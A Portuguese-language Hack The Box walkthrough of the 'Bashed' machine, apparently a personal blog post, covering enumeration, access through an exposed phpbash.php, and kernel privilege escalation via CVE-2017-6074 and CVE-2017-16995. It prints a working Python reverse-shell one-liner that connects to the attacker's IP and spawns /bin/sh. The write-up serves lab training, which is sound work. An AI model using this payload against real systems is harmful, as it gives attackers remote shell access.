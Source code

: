 ```yaml
---
title:     "Hack The Box - Bashed"
tags: [linux,easy, CVE 2017-6074, CVE 2017-16995, kernel exploit]
categories: Linux
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/1.jpg)

## Enumeration

Iniciamos a enumeracao, usando o autorecon para ganhar tempo...

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/2.jpg)

Em paralelo eu estava olhando o site manualmente, de inicio vc ja encontra algumas dicas sobre a maquina..

Apos isso, fui verificar o output do autorecon e encotrei algumas coisas interessantes

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/3.jpg)

Veja o code de cada dir encontrado, os de `code 308` sao os mais imnportantes, entao precisava verificar cada um deles, ao verificar o `/dev` encontro o que eu estava procurando.. o `phpbash.php` entao ali eu ja tinha um bash em php, eu precisava agora ter uma reverse shell.

## Reverse Shell

Usando a tool [gorevpop](https://github.com/an4kein/gorevpop) que eu criei recentemente usando Go, gerei um payload python3 e em seguida ja estava com uma reverse shell

```
root@kali:~/HTB-Linux/bashed# go run /opt/gorevpop/main.go 19 10.10.14.25 443                                        

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/4.jpg)

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/5.jpg)

## Privilege Escalation

### With CVE: 2017-6074

`Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation`

***reference*** https://www.exploit-db.com/exploits/41458

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/6.jpg)

### With CVE: 2017-16995

`
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation`


***reference*** https://www.exploit-db.com/exploits/44298

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/7.jpg)



